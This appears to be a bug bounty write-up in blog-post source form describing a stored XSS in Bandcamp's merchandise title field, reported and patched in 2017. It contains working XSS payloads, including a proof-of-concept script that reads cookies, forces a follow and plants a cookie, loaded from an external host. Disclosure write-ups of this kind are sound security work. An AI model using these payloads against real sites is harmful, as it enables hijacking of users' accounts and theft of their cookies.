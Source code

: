 ```yaml
---
layout: post
title: "Stored XSS in BandCamp"
author: Corben Leo
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Recently, while my friend <a href="https://twitter.com/Alyssa_Herrera_" rel="noopener noreferrer" style="color:#DC0739;text-decoration:none;"><b>Alyssa Herrera</b></a> and I were collaborating on finding ffmpeg vulnerabilities in bug bounty programs, we came to learn that **Bandcamp** ran a bug bounty program. If you have never heard of BandCamp, it is essentially a platform that allows artists, fans, and labels to interact, connect, and support each other.

I instantly was curious to see what I could find, so I signed up for an artist account and created a Bandcamp page. The first function I started to test was the **Add Music** function. This part of the site allows artists to add albums and tracks. I tested for IDOR and XSS, but sadly it wasn't vulnerable to either.

The next function I thought I wanted to test was the **Add Merch** function. There were 2 main parameters in this function that I wanted to test for XSS in immediately. I wanted to see if either the *Item Title* or *Description* accepted / rendered any HTML.
I put in a simple XSS payload for both:  `<svg/onload=confirm(0)>`

I saved and published the new "merchandise", and voila:
NOTHING happened. It was sanitized and I was bummed that it didn't work.
Then I saw the **Buy Now** button, so I clicked it, which opened a new frame and my XSS fired! They were not correctly sanitizing the **Item Title** in this frame, thus allowing an attacker to simply insert any HTML or javascript.

I am always reluctant in submitting an XSS with merely alert() because it just shows I was too lazy to actually come up with a cool proof-of-concept.
With that in mind, I came up with this POC:
```javascript
alert("Stored XSS on BandCamp");
alert("Your cookies: " + document.cookie);
document.getElementById("follow-unfollow").click();alert("Thanks for the follow :^D");
document.cookie="hacker=cdl;path=/;domain=.bandcamp.com";  
```
Then changed the **Item Title** to `<script src=//C0RB3N.pro/bandcamp.js></script>`
which made the victim follow me and set the cookie "hacker" to "cdl" for bandcamp.com and all subdomains in their browser!
<br>Proof of concept video:
<iframe src="https://player.vimeo.com/video/224109910" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (6/29/2017) Reported XSS to Bandcamp via Email
- (6/30/2017) Confirmed, Patched, & Awarded with a $500 bounty!  

<br>
Thanks for reading,<br><br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>

